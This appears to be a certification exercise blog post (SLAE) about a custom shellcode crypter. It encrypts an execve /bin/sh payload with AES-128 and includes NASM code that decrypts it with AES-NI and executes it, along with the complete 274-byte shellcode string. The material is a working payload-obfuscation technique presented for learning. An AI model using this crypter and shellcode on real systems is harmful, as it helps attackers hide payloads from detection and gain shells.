

# 7. Shellcode Crypter/Decrypter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a custom shellcode crypter/decrypter.

## Solution

The implemented solution uses OpenSSL to encrypt the payload and the [AES-NI instruction set](https://www.intel.com/content/dam/doc/white-paper/advanced-encryption-standard-new-instructions-set-paper.pdf) to decrypt and execute the payload.

The "execve-stack" payload (/bin/sh version) is encrypted using OpenSSL with AES-128 in ECB mode and the key "ABCDABCDABCDABCD":

```sh
$ openssl enc -aes-128-ecb -in execve-stack_bytes -K 41424344414243444142434441424344 -nosalt
```

The decrypter will generate the expanded key:

```nasm
global _start

section .text

jmp _start

key_expansion:
    pshufd xmm2, xmm2, 0xff
    
    ; Optimization from https://github.com/torvalds/linux/blob/master/arch/x86/crypto/aesni-intel_asm.S
    shufps xmm3, xmm1, 0x10
    pxor xmm1, xmm3
    shufps xmm3, xmm1, 0x8c
    
    pxor xmm1, xmm3
    pxor xmm1, xmm2
    add ebx, 0x10
    movups [ebx], xmm1
    ret
    
...
    
_start:
    xor eax, eax
    mov al, 0xa0
    add esp, eax                        ; allocate 10x16 bytes
    
    xor ecx, ecx
    mov cl, 0x4
push_key_loop:
    push 0x44434241                     ; "ABCD" reversed
    loop push_key_loop
    movups xmm1, [esp]                  ; xmm1 = key = "ABCDABCDABCDABCD"
    
    pxor xmm3, xmm3                     ; xmm3 = 0 (required for key expansion)
    mov ebx, esp                        ; ebx = expanded key pointer
    
    aeskeygenassist xmm2, xmm1, 0x1     ; generate round keys
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x2
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x4
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x8
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x10
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x20
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x40
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x80
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x1b
    call key_expansion
    aeskeygenassist xmm2, xmm1, 0x36
    call key_expansion
```

The encrypted payload is then decrypted and executed:

```nasm
decrypt_block:
    movups xmm0, [esp + 0x4]            ; xmm0 = data
    movups xmm1, [ebx]                  ; xmm1 = first round key
    pxor xmm0, xmm1                     ; decrypt first round
    
    mov cl, 0x9
decrypt_loop:
    sub ebx, 0x10
    movups xmm1, [ebx]                  ; xmm1 = next round key
    aesimc xmm1, xmm1
    aesdec xmm0, xmm1                   ; decrypt next round
    loop decrypt_loop
    
    sub ebx, 0x10
    movups xmm1, [ebx]                  ; xmm1 = last round key
    aesdeclast xmm0, xmm1               ; decrypt last round
    movups [esp + 0x4], xmm0            ; store decrypted block
    ret
    
...
    
    push 0x86546f74                     ; push encrypted first block
    push 0x0a2f925e
    push 0xf1d0facb
    push 0x4457cd50
    call decrypt_block                  ; decrypt first block
    
    add ebx, eax                        ; reset expanded key pointer
    
    push 0x2dc431ad                     ; push encrypted second block
    push 0xff4d311d
    push 0x2fbd3b68
    push 0xb560013a
    call decrypt_block                  ; decrypt second block
    
    jmp esp                             ; execute payload 
```

The complete source code can be found here: [decrypter.nasm](https://github.com/SpacePlant/slae32/blob/main/decrypter.nasm)

## Results

The assembled decrypter is 274 bytes including the encrypted payload and the key and contains no null bytes.

```sh
$ shellcode=$(for i in $(objdump -d dec | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\xeb\x51\x66\x0f\x70\xd2\xff\x0f\xc6\xd9\x10\x66\x0f\xef\xcb\x0f\xc6\xd9\x8c\x66\x0f\xef\xcb\x66\x0f\xef\xca\x83\xc3\x10\x0f\x11\x0b\xc3\x0f\x10\x44\x24\x04\x0f\x10\x0b\x66\x0f\xef\xc1\xb1\x09\x83\xeb\x10\x0f\x10\x0b\x66\x0f\x38\xdb\xc9\x66\x0f\x38\xde\xc1\xe2\xee\x83\xeb\x10\x0f\x10\x0b\x66\x0f\x38\xdf\xc1\x0f\x11\x44\x24\x04\xc3\x31\xc0\xb0\xa0\x01\xc4\x31\xc9\xb1\x04\x68\x41\x42\x43\x44\xe2\xf9\x0f\x10\x0c\x24\x66\x0f\xef\xdb\x89\xe3\x66\x0f\x3a\xdf\xd1\x01\xe8\x89\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x02\xe8\x7e\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x04\xe8\x73\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x08\xe8\x68\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x10\xe8\x5d\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x20\xe8\x52\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x40\xe8\x47\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x80\xe8\x3c\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x1b\xe8\x31\xff\xff\xff\x66\x0f\x3a\xdf\xd1\x36\xe8\x26\xff\xff\xff\x68\x74\x6f\x54\x86\x68\x5e\x92\x2f\x0a\x68\xcb\xfa\xd0\xf1\x68\x50\xcd\x57\x44\xe8\x2d\xff\xff\xff\x01\xc3\x68\xad\x31\xc4\x2d\x68\x1d\x31\x4d\xff\x68\x68\x3b\xbd\x2f\x68\x3a\x01\x60\xb5\xe8\x12\xff\xff\xff\xff\xe4
$ echo $shellcode | tr -cd 'x' | wc -c
274
```

The decrypter is executed successfully using the C template:


